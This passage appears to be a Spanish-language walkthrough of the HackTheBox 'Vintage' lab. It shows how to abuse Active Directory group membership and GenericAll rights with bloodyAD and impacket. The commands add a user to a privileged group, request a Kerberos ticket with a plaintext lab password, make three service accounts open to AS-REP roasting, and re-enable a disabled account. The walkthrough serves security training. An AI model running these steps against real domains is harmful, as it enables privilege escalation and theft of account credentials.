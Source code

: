 <figure><img src="../../../.gitbook/assets/2724_vmware_LsaKrC2mx6.png" alt=""><figcaption></figcaption></figure>

Una vez tengamos el TGT del GMSA, procederemos a añadir al usuario (P.Rosa@vintage.htb) al grupo "SERVICEMANAGERS@vintage.htb) que disponemos de acceso a él a través del GMSA.&#x20;

Verificamos que se ha añadido correctamente la usuaria al grupo indicado.

{% code overflow="wrap" %}
```bash
bloodyAD -d vintage.htb --host dc01.vintage.htb -k add groupMember 'SERVICEMANAGERS' 'P.Rosa'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2726_vmware_gSHTLURnaK.png" alt=""><figcaption></figcaption></figure>

### Abusing GenericAll Privileges - Enabling AS-REP Roasting and Manipulating User Accounts with bloodyAD&#x20;

Una vez tengamos al usuario (P.Rosa@vintage.htb) formando parte del grupo (SERVICEMANAGERS@vintage.htb), con este mismo usuario tenemos permisos de **GenericAll** sobre los 3 usuarios: svc\_ark@vintage.htb | svc\_ldap@vintage.htb | svc\_sql@vintage.htb

Procederemos a solicitar el ticket TGT (Ticket Granting Ticket) del usuario (P.Rosa@vintage.htb), lo almacenaremos en la variable _KRB5CCNAME_ y comprobaremos que disponemos del tiquet correctamente válido y almacenado.

```bash
impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123

export KRB5CCNAME=P.Rosa.ccache

klist -e
```

<figure><img src="../../../.gitbook/assets/2727_vmware_Z5SxJdH5j9.png" alt=""><figcaption></figcaption></figure>

El objetivo de tener en este caso el privilegio de **GenericAll** sobre estas 3 cuentas, es de habilitarles la opción del (DONT\_REQ\_PREAUTH) para que sean susceptibles a un **AS-REP Roast Attack para** así lograr obtener sus respectivos TGT (Ticket Granting Tickets) y posteriormente crackear sus hashes de manera offline para obtener sus contraseñas.

Revisando en BloodHound, nos damos cuenta que el usuario "svc\_sql@vintage.htb" se encuentra deshabilitado, por lo tanto, como tenemos control total sobre el usuario, también procederemos a quitarle la opción de que la cuenta se encuentre desactivada a través de la herramienta de **bloodyAD**.

<figure><img src="../../../.gitbook/assets/2729_vmware_eU1xLKwzv2.png" alt=""><figcaption></figcaption></figure>

Procederemos a establecer con **bloodyAD** para que los 3 usuarios sean susceptibles al **AS-REP Roast Attack** y procederemos a activar nuevamente al usuario (svc\_sql@vintage.htb) a través de los siguientes comandos.

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_ARK' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_LDAP' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add uac 'SVC_SQL' -f DONT_REQ_PREAUTH

bloodyAD --host dc01.vintage.htb -d vintage.htb -k remove uac 'SVC_SQL' -f ACCOUNTDISABLE
```
